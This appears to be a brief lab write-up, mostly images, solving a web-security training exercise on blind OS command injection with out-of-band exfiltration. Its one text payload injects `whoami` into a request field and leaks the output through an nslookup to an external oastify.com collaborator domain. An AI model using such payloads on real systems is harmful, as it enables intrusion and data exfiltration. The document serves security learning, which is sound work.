 # Lab: Blind OS command injection with out-of-band data exfiltration #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/54ae8de1-a6c5-466c-8d54-de535edda01d)

> We have to execute the whoami command in the webserver

## Target website ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/0d5c96a5-40af-48cc-abcd-75921f270cbd)

> We have intercepted the tarffic and used the payload `nslookup%25252b`whoami`.vyx4kjen5yqv8ucrzikpe3xv9mfd36rv.oastify.com`
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/3e950a9a-f2be-4347-a987-0252b7b2ec9d)

> user was peter-HvNoE2

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d76c2519-58b6-4ac2-8ff6-1bba6dadcc7a)
